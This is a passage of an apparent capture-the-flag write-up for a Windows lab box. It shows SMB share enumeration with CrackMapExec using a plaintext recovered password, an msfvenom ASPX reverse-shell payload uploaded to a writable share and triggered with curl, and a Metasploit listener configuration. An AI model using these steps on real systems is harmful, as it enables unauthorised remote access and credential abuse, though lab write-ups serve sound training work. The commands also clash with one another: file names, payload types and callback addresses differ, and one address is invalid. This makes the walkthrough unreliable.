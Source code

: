 ### Using crackmapexec
Using CrackMapExec, I performed credentialed enumeration of SMB shares to validate access and identify any accessible resources based on the recovered credentials.
The enumeration revealed that the user Bill had valid access to the SMB shares.

![image.png](../../assets/screenshots/Relevant/4.webp)

Bill have the access

```php
crackmapexec smb 10.10.188.131 -u Bill -p 'Juw4nnaM4n420696969!$$$' --shares                                       ✔  took 12s   at 09:25:10  
SMB         10.10.188.131   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.188.131   445    RELEVANT         [+] Relevant\Bill:Juw4nnaM4n420696969!$$$ 
SMB         10.10.188.131   445    RELEVANT         [+] Enumerated shares
SMB         10.10.188.131   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.188.131   445    RELEVANT         -----           -----------     ------
SMB         10.10.188.131   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.188.131   445    RELEVANT         C$                              Default share
SMB         10.10.188.131   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.188.131   445    RELEVANT         nt4wrksv        READ,WRITE      
```

![image.png](../../assets/screenshots/Relevant/5.webp)

### Foothold

For initial access, I generated a malicious ASPX payload using MSFvenom and uploaded it to the writable SMB share to achieve remote code execution.

```php
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.122.233 LPORT=1234 -f aspx > rev-shell.aspx
```

Uploading

![image.png](../../assets/screenshots/Relevant/6.webp)

I triggered the payload by issuing a curl request to the uploaded ASPX file using the following command:

```php
curl http://10.10.242.36:49663/nt4wrksv/backup.aspx
```
Upon triggering the payload, I prepared to receive the reverse shell using msfconsole. I configured the handler as follows:
```php
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.23.266.210
set LPORT 9998
run
```
